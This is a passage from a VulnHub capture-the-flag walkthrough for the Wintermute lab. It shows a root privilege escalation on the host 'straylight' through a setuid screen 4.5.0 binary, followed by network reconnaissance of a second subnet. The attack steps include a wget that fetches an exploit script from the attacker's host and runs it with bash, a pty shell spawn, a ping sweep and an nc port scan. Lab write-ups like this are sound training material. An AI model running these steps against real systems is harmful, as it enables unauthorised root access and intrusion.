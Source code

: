     -rwsr-xr-x 1 root root 1543016 May 12  2018 /bin/screen-4.5.0

kali@kali:~$ searchsploit screen 4.5

![1-1.png](/assets/images/posts/wintermute-vulnhub-walkthrough/1-11.png)

Download the exploit
```
www-data@straylight:/dev/shm/192.168.251.4:8000$ wget 192.168.251.4:8000/41154.sh
www-data@straylight:/dev/shm/192.168.251.4:8000$ bash 41154.sh
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```
Note, the script returns lots of errors. We're now in as root. Remember we're
not done yet. When looking around in root we find a note left for us.
```
# python -c "import pty;pty.spawn('/bin/bash')"
root@straylight:/etc# cd /root

root@straylight:/root# cat note.txt

Devs,

Lady 3Jane has asked us to create a custom java app on Neuromancer's primary
server to help her interact w/ the AI via a web-based GUI.

The engineering team couldn't strss enough how risky that is, opening up a Super
AI to remote access on the Freeside network. It is within out internal admin network,
but still, it should be off the network completely. For the sake of humanity, user
access should only be allowed via the physical console...who knows what this thing
can do.

Anyways, we've deployed the war file on tomcat as ordered - located here:

/struts2_2.3.15.1-showcase

It's ready for the devs to customize to her liking...I'm stating the obvious, but
make sure to secure this thing.

Regards,

Bob Laugh
Turing Systems Engineer II
Freeside//Straylight//Ops5
```
Previously we'd noted that there was 2 interface cards, hence we'll ping to fing the other IP addresses;
```
root@straylight:/etc# for i in {1..254};do (ping 192.168.219.$i -c 1 -w 5 > /dev/null && echo "192.168.219.$i" &) ; done
192.168.219.1
192.168.219.2
192.168.219.6
192.168.219.8
```
The ip of Neuromancer is `192.168.219.6`. Next thing we do is an port scan of that address.
```
root@straylight:/etc# nc -nvz -w 1 192.168.219.6 1-65535
```